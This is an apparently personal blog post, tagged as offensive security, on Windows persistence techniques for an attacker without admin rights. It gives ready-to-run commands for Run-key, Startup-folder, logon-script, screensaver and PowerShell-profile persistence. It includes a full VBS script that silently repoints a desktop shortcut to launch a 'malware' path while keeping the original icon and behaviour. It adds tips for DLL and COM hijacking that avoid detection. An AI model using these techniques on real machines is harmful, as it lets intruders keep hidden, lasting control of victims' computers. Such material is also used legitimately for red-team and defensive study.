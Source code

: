 ```yaml
---
title: "Windows Persistence"
classes: wide
header:
  teaser: /assets/images/persist.png
ribbon: DodgerBlue
description: "Windows Persistence vectors explanation"
categories:
  - Offensive
toc: true
---
```


# Non Privileged vector

## Startup Folder / Registry keys

This is a basic technique used a lot, it works by just adding your application in one of those places.

    copy "app path" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
    reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v MSUpdate /t REG_SZ /d "app path" /f

## Logon Script

when the user logs in there is a process called "userinit.exe" which does many things one of them is launching Logon Scripts.
you can create logon scripts with the following command...

    reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /d "script path" /t REG_SZ /f

## Shortcuts Modification

This is working by modifying the command launched by the shortcut."Don't forget to do that in a way that makes the shortcut behave as expected from the user"
here is a VBS script that does that. "don't forget to modify it based on your needs"

```java
' malware path
malware = ""
' the path of the actual script that will be launched "Created by the script"
executed_script = "exec.vbs"
' target shortcut name
lnkName = ""

' helper vars
set WshShell = WScript.CreateObject("WScript.Shell" )
' Chose the folder of the lnk file
strDesktop = WshShell.SpecialFolders("Desktop" )
set oShellLink = WshShell.CreateShortcut(strDesktop & "\" & lnkName )
origTarget = oShellLink.TargetPath
origArgs = oShellLink.Arguments
origIcon = oShellLink.IconLocation
origDir = oShellLink.WorkingDirectory

' persistence malwareation
Set FSO = CreateObject("Scripting.FileSystemObject")
Set File = FSO.CreateTextFile(executed_script,True)
File.Write "Set oShell = WScript.CreateObject(" & chr(34) & "WScript.Shell" & chr(34) & ")" & vbCrLf
File.Write "oShell.Run " & chr(34) & malware & chr(34) & vbCrLf
File.Write "oShell.Run " & chr(34) & oShellLink.TargetPath & " " & oShellLink.Arguments & chr(34) & vbCrLf
File.Close

oShellLink.TargetPath = executed_script
oShellLink.IconLocation = origTarget & ", 0"
oShellLink.WorkingDirectory = origDir
oShellLink.WindowStyle = 7
oShellLink.Save

```

## ScreenSavers

This technique is modifying "or adding if not exist" the value of the screen saver key in the registry to be our app so when the screen saver is triggered that will launch the app.
we can do that using the following commands...

    reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "app path" /f
    reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f

## Powershell Profile

This technique needs PowerShell to run something to be triggered.
In PowerShell, profiles are the settings that are saved in a specific folder which is run each time PowerShell is executed.
you can do that by the following command...

      echo "app path" > %HOMEPATH%"\Documents\windowspowershell\profile.ps1

## DLL Hijacking

Once you are in the device then you know the applications that are presented on this device, one way to find a way to persist in the machine is to test the already persistent apps used on the machine on your own machine looking for DLL hijacking vulnerabilities.

So What's DLL hijacking vulnerability?!

Once an application starts it tries to load its needed libraries, the vulnerability here comes when the app search order is looking for that library in a place we control before the actual place of the library and we can easily spot that using the Sysinternals tool "Procmon" using a good filter will make the process goes quickly."Don't forget to implement the actual functionality needed by the application on your malicious dll to prevent the app from crashing".

    Tip: You can filter the procmon search to automatically just show you the dlls that were searched and not found.

## COM Hijacking

Component Object Model (COM) COM is a platform-independent, distributed, object-oriented system for creating binary software components that can interact.

when the app needs to call a COM service it uses the following diagram

![error loading](/assets/images/com.png)

the SCM is given a GUID for the needed COM object and starts searching in the HKCU and will not go to HKLM if he found the needed COM object, and because we have all rights to right on HKCU we can hijack the flow and make the app loads our own dll.
we can use task schedular to look for potentially vulnerable apps by exporting its data and searching for the "ComHandler" tag with the "LogonTriger" tag, and search if that COM object is not presented in HKCU.

    schtasks /query /xml > tasks.xml
